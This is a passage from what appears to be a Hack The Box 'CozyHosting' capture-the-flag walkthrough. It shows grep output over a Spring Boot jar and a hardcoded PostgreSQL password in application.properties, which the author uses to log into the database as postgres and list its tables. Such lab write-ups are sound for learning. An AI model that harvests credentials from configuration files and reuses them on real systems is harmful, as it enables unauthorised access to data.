 ```terminal
./BOOT-INF/classes/templates/login.html:                                        <div class="invalid-feedback">Please enter your password!</div>
./BOOT-INF/classes/templates/login.html:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>

./BOOT-INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR

grep: ./BOOT-INF/classes/htb/cloudhosting/database/CozyUserDetailsService.class: binary file matches
grep: ./BOOT-INF/classes/htb/cloudhosting/database/CozyUser.class: binary file matches
grep: ./BOOT-INF/classes/htb/cloudhosting/secutiry/SecurityConfig.class: binary file matches
grep: ./BOOT-INF/classes/htb/cloudhosting/scheduled/FakeUser.class: binary file matches

```

Found a password inside `BOOT-INF/classes/application.properties` file, let's print out the file and see if there is any other infomation.

```terminal
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

The password is used to connect to the `postgres` database.

Let's connect using the command `psql -U postgres -h 127.0.0.1`.

```terminal
app@cozyhosting:/tmp/sirius$ psql -U postgres -h 127.0.0.1
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

We connected successfully.

To list the databases we run `\list`

```terminal
postgres=# \list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=#
```
